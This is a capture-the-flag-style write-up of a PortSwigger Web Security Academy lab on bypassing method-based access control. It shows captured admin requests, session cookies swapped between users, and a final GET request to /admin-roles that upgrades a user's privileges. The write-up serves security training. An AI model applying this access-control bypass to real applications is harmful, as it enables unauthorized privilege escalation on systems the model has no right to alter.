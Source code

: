 ## Lab Decription :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d964f901-24f1-4c01-8336-90ce13bdd4ed)


## Solution :

In this lab we exploit the flaw of  **Method based access control**. Some websites may enforce access control to restrict access to specific URLs and HTTP methods based on the user's role like ,

```http
DENY: POST, /admin/deleteUser, managers
```

Here it blocks the *GET* requests to the  URL */admin/delete*.

Using method based access control, we can *bypass this by changing the HTTP request method*


### Steps -

The lab tells us to get familiarized with the admin page with the credentials `administrator:admin`.

Now we have logged in as administrator.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bc2ae963-230b-4a67-a090-368599943182)

We see that there is a link to *admin panel*. Clicking on admin panel takes us to this page where we can upgrade  or downgrade the privileges of a user.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a899bc23-32ad-4e54-8f5b-8d648f1f05b1)

Click on any action && capture the request and send it top repeater as it may come handy later.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a4fb6cb6-3695-48fd-8f43-f46bce773105)

We can see that in this *POST* request we have a parameter called **username=carlos** & **action=upgrade*

The above reqest upgrades the privileges of carlos user.


Now **Log out of admin user and try loggin in as wiener**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cfce931f-aad7-401c-a435-0fa6443f1c1c)

Reload the page & capture the request & send it to repeater.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/57fabd90-75e5-49af-a1b9-9b3f3bbf0f73)


**Our goal is to exploit the flawed access controls to promote yourself to become an administrator.**

So we can try to perform the role changing action as wiener by pasting the cookie value of wiener in the request made by admin to change the privileges !

Cookie of admin -   `6siUFNzqgvZGuGPXfxu7lFIiDXgNKdF5`
Cookie of wiener - `T0lAJAlHhdoNt8LZIK7VB45FxcSyawzE`

The response is **401 - Unauthorized**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cc3e41cd-b53f-4b51-89b9-a16747e5a157)

Since this lab is based on Method-Based-Access control bypass, we can try to change the request from **POST** to **GET**. We can do this by `Right click on request` -> Click `Change request method` option.

Now it changes to a *GET* request,

```http
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a6b00020427b34c8392bbf9005e002b.web-security-academy.net
Cookie: session=T0lAJAlHhdoNt8LZIK7VB45FxcSyawzE
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a6b00020427b34c8392bbf9005e002b.web-security-academy.net
Referer: https://0a6b00020427b34c8392bbf9005e002b.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```























